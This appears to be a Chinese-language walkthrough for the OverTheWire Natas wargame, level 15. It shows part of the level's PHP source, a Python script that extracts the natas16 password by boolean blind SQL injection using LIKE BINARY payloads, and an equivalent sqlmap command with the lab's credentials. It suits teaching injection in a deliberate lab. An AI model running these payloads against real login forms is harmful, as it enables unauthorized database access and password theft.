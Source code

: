 ```
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```

```python
# -*- coding: UTF-8 -*-
import requests

url='http://natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J@natas15.natas.labs.overthewire.org/index.php'

chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

filtered = ''

passwd = ''

for char in chars:
    Data = {'username' : 'natas16" and password LIKE BINARY "%' + char + '%" #'}
    #使用like模糊查询不会区分大小写，要带上binary
    r = requests.post(url=url,data=Data)
    if 'exists' in r.text :
        filtered = filtered + char
        print filtered #先过滤出密码里存在的字符，然后再跑具体的值，这样能加快速度

for i in range(0,32):
    for char in filtered:
        Data = {'username' : 'natas16" and password LIKE BINARY "' + passwd + char + '%" #'}
        #使用like模糊查询不会区分大小写，要带上binary
        r = requests.post(url=url,data=Data)
        if 'exists' in r.text :
            passwd = passwd + char
            print(passwd)
            break

```

或
```python
python sqlmap.py -u "http://natas15.natas.labs.overthewire.org/index.php" --auth-type=basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J  --dbms=mysql --data username=natas16 --level=5 --risk=3 --technique=B --dump --string="This user exists"
```

考查SQL注入漏洞，但这次需要盲注处密码的值，需要写盲注脚本，虽然sql语句中只查询了username字段来判断用户是否存在，这里我们直接猜测用户natas16是存在的，再使用and逻辑运算将对password字段的查询连接起来，构成布尔注入语句，使用like模糊查询，最终得到密码
